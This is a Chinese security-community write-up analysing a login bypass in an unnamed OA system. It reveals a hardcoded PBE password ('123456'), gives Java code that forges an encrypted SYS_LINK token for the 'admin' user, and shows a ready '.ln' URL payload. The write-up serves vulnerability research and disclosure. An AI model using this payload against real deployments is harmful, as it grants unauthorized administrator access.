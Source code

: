 

# 奇安信攻防社区-某oa登录绕过分析

### 某oa登录绕过分析

本文会先从正常登录逻辑分析，从而找到该系统认证的过程和方式，进而搜索相关接口找到其他登录接口，进而利用漏洞绕过登录

本文会先从正常登录逻辑分析，从而找到该系统认证的过程和方式，进而搜索相关接口找到其他登录接口，进而利用漏洞绕过登录

# 0x01 正常登录逻辑分析

首先先来看正常的登录流程，我们输入用户名和密码，然后抓包

![image-20231121095258925](assets/1702880530-bb1e19748ed7983814cbf464bc37a58a.jpg)

可以看到请求了`/login/login_valid.jsp`，然后找对对应的文件

![image-20231121095415803](assets/1702880530-573d82bedb8c96c340b12f09c7d61f86.jpg)

可以看到这里取了post发送的数据，并调用`userLoginService.login`方法返回一个Map对象，返回有关登录结果或其他信息的键值对，所以这个对象就是处理登录的逻辑，我们继续跟进这个方法。

![image-20231121095926062](assets/1702880530-da526ab98f3d9e3bf660a46d409387c9.jpg)

在`userLoginService.login`方法中，可以看到他继续调用了`loginByRequest`方法

![image-20231121101110358](assets/1702880530-b8e12f8700f129e60212517d770a5658.jpg)

在`loginByRequest`中就是一般登陆验证的正常操作，将userName和password带入`userLogic.getUser`中进行验证，这里会通过sql语句进行查询判断，如果验证成功则会设置对应的cookie，之后不做过多赘述。

# 0x02 寻找漏洞

经过观察和分析，发现从这里是不好下手的，各种验证措施也比较完善，所以我们从其他地方下手。

这里我们打开这个类的的结构，查看其中所有的方法，我们发现登录方式不止可以通过`loginByRequest`，还有其他的方法：

![image-20231121101759018](assets/1702880530-d9e3b6224152db94d1b7b7837d97e5c8.jpg)

通过传入的参数和方法名可以推断出该系统有4中登录认证方式：分别是通过域登录(loginByAD)，统一身份认证登录(loginByCas)，用户名密码普通登录(loginByRequest)以及直接通过用户名登录(loginByUserName)

其中通过域登录由于无法获取域账户而首先放弃研究，所以主要看统一身份认证登录(loginByCas)是怎样实现的

![image-20231121110224140](assets/1702880530-62fd090f36bbab841adc4455797310fc.jpg)

可以看到loginByCas最后还是调用的loginByUserName

![image-20231121111425394](assets/1702880530-f6be27fd3a185cc189690d58074c47e1.jpg)

在loginByUserName也是直接通过判断用户名是否在数据库中，如果存在，后续的操作和前面loginByRequest的流程一样。

所以接下来的思路就是寻找直接调用了`loginByUserName`或`loginByCas`的地方，这里使用jadx-gui进行搜索，因为idea不支持直接搜索jar包中的代码内容，当然也可以将jar包反编译后进行搜索。

![image-20231121150820308](assets/1702880530-9e843b97e6d058ff40d3e3b304843d04.jpg)

这里搜索到`loginByUserName`的调用方法只有在刚刚那几个方法中，没啥用处

![image-20231121150843464](assets/1702880530-f3130451157d6e93d3dfa83796d2d1af.jpg)

搜索`loginByCas`调用的方法就多了，这里我找了上方红框中的一个点，在`ControllerFilter`中的`doFilter`方法中。(另外其他接口也可以造成登录绕过，有兴趣的师傅可以自己动手分析)

![image-20231121153806745](assets/1702880530-0dee19104dffb39be5b28c8811b9861d.jpg)

经过对代码分析，发现要触发这里的`loginByCas`方法需要url以`.ln`结尾，然后从`SYS_LINK`参数中取到的值，并使用 `SYS_LINK` 的值获取一个 `LinkMeta` 对象，然后从 `LinkMeta` 中获取用户对象，最后将获取的用户名带入到`loginByCas`中进行登录。这里的`SYS_LINK`可控，所以主要看`LinkUtil.getLinkMeta`方法中的处理逻辑。

![image-20231121170710471](assets/1702880530-e823285aaec2d0244e2f7abeefd7f5df.jpg)

在`getLinkMeta`中，这里首先对传入的值进行hex解码，使用`EncrypUtil.decrypt`进行解密，然后以`||`进行分割，分割的三个值分别为跳转的日期，时间，用户名。

所以这里如果我们构造参数为`/servlet/main||2024-01-01||admin`，就可以使得分割后第三个元素被`setUser`，进而传递到下面作为`loginByCas`从而进行的登录，注意时间要在当前的时间之后，因为在`doFilter`会对时间做校验。

接下来看一下他的加密方法

![image-20231121154521814](assets/1702880530-9eaaf4c8526425ed08f4bdef7cce20ba.jpg)

![image-20231121154457430](assets/1702880530-ef0729df9b7d1fc1da6e46567497de7c.jpg)

可以看到这里的加密方法是`PBEWithMD5AndDES`，并且知道密码是`123456`

> PBE（Password Based Encryption，基于口令加密）算法是一种基于口令的加密算法，其特点在于口令是由用户自己掌握的，采用随机数杂凑多重加密等方法保证数据的安全性, PBE算法没有密钥的概念，密钥在其它对称加密算法中是经过算法计算得出来的，PBE算法则是使用口令替代了密钥。

所以我们只需要调用他的加密方法即可：

```java
import org.jasypt.util.text.BasicTextEncryptor;

import java.io.UnsupportedEncodingException;
import java.math.BigInteger;
import java.nio.charset.StandardCharsets;

public class EncrypUtil {
    public static String password = "123456";
    public static Boolean stringOutputTypeBase64 = false;

    public static String encrypt(String text) {
        BasicTextEncryptor textEncryptor = new BasicTextEncryptor();
        textEncryptor.setPassword(password);
        String myEncryptedText = textEncryptor.encrypt(text);
        return myEncryptedText;
    }

    public static String decrypt(String text) {
        BasicTextEncryptor textEncryptor = new BasicTextEncryptor();
        textEncryptor.setPassword(password);
        String plainText = textEncryptor.decrypt(text);
        return plainText;
    }
    private static String bytesToHex(byte[] bytes) {
        BigInteger bigInt = new BigInteger(1, bytes);
        return bigInt.toString(16);
    }

    public static void main(String[] args) throws UnsupportedEncodingException {
        String result = encrypt("/servlet/main||2024-01-01||admin");
        System.out.println("encrypt String: " +result);
        byte[] bytes = result.getBytes(StandardCharsets.UTF_8);
        String hexEncodedString = bytesToHex(bytes);
        System.out.println("Hex Encoded String: " + hexEncodedString);
    }
}
```

![image-20231121172133989](assets/1702880530-773d24a1e5bf40fef7f682f918f7a0ad.jpg)

（这里注意如果你运行的结果和我的不一样也是没问题的，因为该算法每次加密后的结果都不一样）

构造完payload就要找到如何可以触发，由于这段代码在`doFilter`中，所以我们可以首先在`web.xml`中搜索他哪些路由会经过该过滤器，经过搜索发现以下url后缀中的路由都会经过该过滤器，正好包括`.ln`结尾的路由。

![image-20231121151554400](assets/1702880530-68e7bf6d8602bdcaa2b5f7fd3c564da3.jpg)

# 0x03 漏洞复现

所以最后我们构造的payload为：

```php
/1.ln?SYS_LINK=736a356b37475635563576783561796242424c31554c4c6c6a585767516b757338386178663935616f59626e584b65503051462b2b4155335535547a41684734
```

![image-20231127151650911](assets/1702880530-53e2a02f72743b0e02b8aee94cf7ab71.jpg)

![image-20231127151538787](assets/1702880530-29a37434f3855e418d7722f32f75dc3a.jpg)

